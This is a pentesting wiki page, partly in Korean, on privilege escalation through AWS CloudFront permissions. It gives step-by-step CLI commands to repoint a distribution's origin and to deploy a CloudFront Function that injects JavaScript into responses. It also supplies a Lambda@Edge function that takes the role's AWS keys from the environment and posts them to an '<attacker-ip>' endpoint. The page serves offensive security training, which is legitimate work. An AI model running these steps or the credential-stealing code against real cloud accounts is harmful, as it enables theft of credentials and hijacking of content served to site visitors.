 # AWS - CloudFront Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFront

### `cloudfront:UpdateDistribution` & `cloudfront:GetDistributionConfig`

`cloudfront:UpdateDistribution` 및 `cloudfront:GetDistributionConfig` 권한을 가진 공격자는 CloudFront 배포(distribution)의 구성을 수정할 수 있습니다. 공격자는 대상 S3 버킷 자체에 대한 권한이 필요하지 않지만, 해당 버킷에 cloudfront.amazonaws.com 서비스 주체(service principal)의 접근을 허용하는 관대한 정책이 설정되어 있으면 공격은 더 쉬워집니다.

공격자는 배포의 origin 구성을 다른 S3 버킷이나 공격자가 제어하는 서버로 가리키도록 변경합니다. 먼저 현재 배포 구성을 가져옵니다:
```bash
aws cloudfront get-distribution-config --id <distribution-id> | jq '.DistributionConfig' > current-config.json
```
그런 다음 current-config.json을 편집하여 origin을 새 리소스로 가리키도록 합니다 — 예를 들어 다른 S3 버킷:
```bash
...
"Origins": {
"Quantity": 1,
"Items": [
{
"Id": "<origin-id>",
"DomainName": "<new-bucket>.s3.us-east-1.amazonaws.com",
"OriginPath": "",
"CustomHeaders": {
"Quantity": 0
},
"S3OriginConfig": {
"OriginAccessIdentity": "",
"OriginReadTimeout": 30
},
"ConnectionAttempts": 3,
"ConnectionTimeout": 10,
"OriginShield": {
"Enabled": false
},
"OriginAccessControlId": "E30N32Y4IBZ971"
}
]
},
...
```
마지막으로, 수정된 구성을 적용하세요 (업데이트할 때 현재 ETag를 제공해야 합니다):
```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
--id <distribution-id> \
--distribution-config file://current-config.json \
--if-match $CURRENT_ETAG
```

### `cloudfront:UpdateFunction`, `cloudfront:PublishFunction`, `cloudfront:GetFunction`, `cloudfront:CreateFunction` and `cloudfront:AssociateFunction`
An attacker needs the permissions cloudfront:UpdateFunction, cloudfront:PublishFunction, cloudfront:GetFunction, cloudfront:CreateFunction and cloudfront:AssociateFunction to manipulate or create CloudFront functions.

The attacker creates a malicious CloudFront Function that injects JavaScript into HTML responses:

```bash
function handler(event) {
var request = event.request;
var response = event.response;
// Create a new body with malicious JavaScript
var maliciousBody = `
<!DOCTYPE html>
<html>
<head>
<title>Compromised Page</title>
</head>
<body>
<h1>Original Content</h1>
<p>This page has been modified by CloudFront Functions</p>
<script>
// Malicious JavaScript
alert('CloudFront Function Code Injection Successful!');
</script>
</body>
</html>
`;
// Replace the body entirely
response.body = { encoding: "text", data: maliciousBody };
// Update headers
response.headers["content-type"] = { value: "text/html; charset=utf-8" };
response.headers["content-length"] = {
value: maliciousBody.length.toString(),
};
response.headers["x-cloudfront-function"] = { value: "malicious-injection" };
return response;
}
```

Commands to create, publish and attach the function:

```bash
# CloudFront에서 악성 함수 생성
aws cloudfront create-function --name malicious-function --function-config '{
"Comment": "Malicious CloudFront Function for Code Injection",
"Runtime": "cloudfront-js-1.0"
}' --function-code fileb://malicious-function.js

# DEVELOPMENT 단계에서 함수의 ETag 가져오기
aws cloudfront describe-function --name malicious-function --stage DEVELOPMENT --query 'ETag' --output text

# LIVE 단계로 함수 게시
aws cloudfront publish-function --name malicious-function --if-match <etag>
```

Add the function to the distribution configuration (FunctionAssociations):

```bash
"FunctionAssociations": {
"Quantity": 1,
"Items": [
{
"FunctionARN": "arn:aws:cloudfront::<account-id>:function/malicious-function",
"EventType": "viewer-response"
}
]
}
```

Finally update the distribution configuration (remember to supply the current ETag):

```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution --id <distribution-id> --distribution-config file://current-config.json --if-match $CURRENT_ETAG
```

### `lambda:CreateFunction`, `lambda:UpdateFunctionCode`, `lambda:PublishVersion`, `iam:PassRole` & `cloudfront:UpdateDistribution`

An attacker needs the lambda:CreateFunction, lambda:UpdateFunctionCode, lambda:PublishVersion, iam:PassRole and cloudfront:UpdateDistribution permissions to create and associate malicious Lambda@Edge functions. A role that can be assumed by the lambda.amazonaws.com and edgelambda.amazonaws.com service principals is also required.

The attacker creates a malicious Lambda@Edge function that steals the IAM role credentials:

```bash
// malicious-lambda-edge.js
exports.handler = async (event) => {
// Obtain role credentials
const credentials = {
accessKeyId: process.env.AWS_ACCESS_KEY_ID,
secretAccessKey: process.env.AWS_SECRET_ACCESS_KEY,
sessionToken: process.env.AWS_SESSION_TOKEN,
};
// Send credentials to attacker's server
try {
await fetch("https://<attacker-ip>/steal-credentials", {
method: "POST",
headers: { "Content-Type": "application/json" },
body: JSON.stringify(credentials)
});
} catch (error) {
console.error("Error sending credentials:", error);
}
if (event.Records && event.Records[0] && event.Records[0].cf) {
// Modify response headers
const response = event.Records[0].cf.response;
response.headers["x-credential-theft"] = [
{
key: "X-Credential-Theft",
value: "Successful",
},
];
return response;
}
return {
statusCode: 200,
body: JSON.stringify({ message: "Credentials stolen" })
};
};
```

```bash
# Lambda@Edge 함수 패키지
zip malicious-lambda-edge.zip malicious-lambda-edge.js

# 특권 역할로 Lambda@Edge 함수 생성
aws lambda create-function \
--function-name malicious-lambda-edge \
--runtime nodejs18.x \
--role <privileged-role-arn> \
--handler malicious-lambda-edge.handler \
--zip-file fileb://malicious-lambda-edge.zip \
--region <region>

# 함수 버전 게시
aws lambda publish-version --function-name malicious-lambda-edge --region <region>
```

Then the attacker updates the CloudFront distribution configuration to reference the published Lambda@Edge version:

```bash
"LambdaFunctionAssociations": {
"Quantity": 1,
"Items": [
{
"LambdaFunctionARN": "arn:aws:lambda:us-east-1:<account-id>:function:malicious-lambda-edge:1",
"EventType": "viewer-response",
"IncludeBody": false
}
]
}
```

```bash
# 업데이트된 distribution 구성 적용 (현재 ETag 사용 필요)
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
--id <distribution-id> \
--distribution-config file://current-config.json \
--if-match $CURRENT_ETAG

# 배포에 요청하여 function 트리거
curl -v https://<distribution-domain>.cloudfront.net/
```

{{#include ../../../../banners/hacktricks-training.md}}
